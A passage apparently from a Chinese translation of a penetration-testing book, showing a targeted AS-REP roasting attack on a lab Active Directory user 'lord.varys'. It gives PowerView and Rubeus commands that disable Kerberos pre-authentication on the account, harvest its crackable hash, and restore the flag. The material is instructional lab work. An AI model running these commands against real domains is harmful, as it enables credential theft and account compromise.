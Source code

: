 ![图 6.15 – 成功的针对 lord.varys 用户的 Kerberoasting 攻击](img/B18964_06_15.jpg)

图 6.15 – 成功的针对 lord.varys 用户的 Kerberoasting 攻击

针对 AS-REP 烤制攻击基于我们对 **userAccountControl** 属性的控制，因此我们可以将其更改为 **不需要 Kerberos 预认证**。我将使用 PowerView 和 Rubeus 演示此过程：

```
Set-DomainObject -Identity lord.varys -XOR @{useraccountcontrol=4194304} -Verbose
Rubeus.exe asreproast
Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
```

成功的攻击如下图所示：
